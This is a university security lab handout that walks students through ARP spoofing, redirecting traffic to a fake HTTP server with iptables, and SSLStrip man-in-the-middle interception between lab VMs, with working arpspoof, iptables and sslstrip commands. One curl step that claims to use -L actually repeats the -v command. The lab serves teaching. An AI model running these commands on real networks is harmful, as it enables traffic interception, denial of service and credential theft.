 # CSCD27 Lab 8: ARP spoofing and SSLStripping

## Vagrant Setup

Make sure to setup your environment as described in the [Vagrant Setup Guideline](https://github.com/ThierrySans/CSCD27-F16/blob/master/assignments/02/VAGRANT.md).

## Initial check

*As Alice*, test that Mathlab is reachable:

```shell
vagrant@alice:~$ curl http://mathlab.utsc.utoronto.ca/
```

## ARP Spoofing (Denial Of Service)

In this part, Mallory wants to disrupt the communication between Alice and the Gateway. To do so, Mallory will broadcast spoofed ARP packets to Alice saying that the gateway can be reached through Mallory's physical address.

*As Mallory (terminal 1), broadcast spoofed ARP messages to Alice (10.0.1.101) pretending to be the gateway (10.0.1.100):

```shell
vagrant@mallory:~$ sudo arpspoof -i eth1 -t 10.0.1.101 10.0.1.100
```

Finally:

- *As Alice*, test that Mathlab is no longer reachable.
- *As Mallory*, use Wireshark to see ARP spoofed messages and failed TCP messages

## ARP Spoofing (fake HTTP server)

In this part, rather than disrupting the communication between Alice and the Gateway, Mallory wants to setup a fake HTTP server pretending to be Mathlab. To do so, Mallory will first redirect HTTP messages to a fake server before spoofing the ARP messages.

*As Mallory* (terminal 1), start a fake HTTP server listening on port 8080

```shell
vagrant@mallory:~$ cd /vagrant/mallory/fake_http
vagrant@mallory:~$ python -m SimpleHTTPServer 8080
```

*As Mallory* (terminal 2), redirect HTTP traffic (coming from eth1 on port 80) to the fake HTTP server on Mallory's:

```shell
vagrant@mallory:~$ sudo bash -c "echo '1' > /proc/sys/net/ipv4/ip_forward"
vagrant@mallory:~$ sudo iptables -t nat -A PREROUTING -p tcp -i eth1 --dport 80 -j DNAT --to-destination 10.0.1.102:8080
```

*As Mallory* (terminal 2), broadcast spoofed ARP messages as done previously

Finally:

- *As Alice*, test that Mathlab is now reachable (but is it really mathlab?)
- *As Mallory*, use Wireshark to see the (fake) HTTP exchange

## Understanding HTTPS redirects

Before starting with this part, make sure to stop any ARPSpoofing you might have started.

As you may have noticed, it is possible to browse `mathlab.utsc.utoronto.ca` using both HTTP and HTTPS. You can also use curl to show the differences.

*As Alice*, use the `-v` option in curl to show the difference between HTTP abd HTTPS:

```shell
vagrant@alice:~$ curl -v http://mathlab.utsc.utoronto.ca/
vagrant@alice:~$ curl -v https://mathlab.utsc.utoronto.ca/
```

In practice, it is *strongly not recommended* to have the same content served with HTTP and HTTPS (see note about [mixed content](https://developer.mozilla.org/en-US/docs/Web/Security/Mixed_content)). Usually, the web server is configured to serve the content with HTTPS only. However, when someone uses HTTP, the server sends back a special HTTP response (HTTP Status Code 301: Moved Permanently) saying that the page has been relocated permanently to its HTTPS location. Conveniently, most web browsers follow this redirection automatically.

As an example, we have setup `http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/` to work like this. If you open this page (in HTTP) on your browser, you should see that you are being redirected automatically to `https://mathlab...`.

*As Alice*, use the `-v` option in curl to show the HTTP redirect response:

```shell
vagrant@alice:~$ curl -v http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/
```

*As Alice*, use the `-L` option in curl to follow the HTTPS redirects automatically (like most of web browsers do):

```shell
vagrant@alice:~$ curl -v http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/
```

## SSLStripping attack

The SSLStripping attack is a man-in-the-middle attack that aims at relaying messages between the victim and a web server. SSLStripping does not break the SSL tunnel that is resistant to man-in-the-middle attack however it works by intercepting the HTTPS redirects (sent in plaintext) to maintain an HTTP connection with the victim. Meanwhile, it sets up a connection with the server in HTTPS. Using that setup, the attacker can get all messages sent by the victim and all responses sent back from the server.

*As Mallory* (terminal 1), start an SSLStrip proxy on port 8080:

```shell
vagrant@mallory:~$ cd sslstrip-0.9
vagrant@mallory:~$ python sslstrip.py -a -w log.txt -l 8080 -f
```

*As Mallory* (terminal 2), broadcast spoofed ARP messages as done previously

Finally:

- *As Alice*, test that `http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/` is now reachable with HTTP
- *As Mallory*, open the file `log.txt` and see all HTTPS traffic